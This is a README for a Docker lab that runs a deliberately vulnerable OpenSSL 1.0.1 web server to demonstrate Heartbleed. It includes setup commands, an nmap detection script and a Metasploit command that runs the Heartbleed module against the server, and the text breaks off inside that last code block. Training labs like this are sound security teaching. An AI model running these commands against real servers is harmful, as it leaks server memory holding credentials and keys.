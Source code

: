 # Heartbleed
### Setup
Debian + Apache2 + OpenSSL (V. 1.0.1) based on https://github.com/effesociety/heartbleed-vulnerable-server <br>
exploit based on: https://github.com/jknudsen-synopsys/heartbleed-box

Requirements:
- Docker
- git
- python

#
### Heartbleed Vulnerable Server
A Debian (Wheezy) Linux system with a vulnerable version of libssl and openssl and a web server to showcase CVS-2014-0160, a.k.a. Heartbleed.

# Overview
This docker container is based on Debian Jessie and has been modified to use a vulnerable version of libssl and openssl.

![Vulnerable Web Page](./docs/vulnerable-web-server.jpg)

Log in to save the input to the server and then have it output by the exploit 

#
### Installation
Install the container with `docker pull effesociety/heartbleed-vulnerable-server`

Run the container with a port mapping `docker run -d -p 8443:443 effesociety/heartbleed-vulnerable-server`

You should be able to access the web application at http://your-ip:8443/.

# Checking
The web server/vulnerable openssl/libssl version can be verified and exploited as shown below (using a Kali machine is recommended):</br>

``` sh
root@kali:~/heartbleed-vulnerable-server# nmap -sV -p 8443 --script=ssl-heartbleed your-ip
```

# Exploitation
``` sh
msfconsole
root@kali:/tmp# msfcli auxiliary/scanner/ssl/openssl_heartbleed RHOSTS=your-ip RPORT=8443 VERBOSE=true E
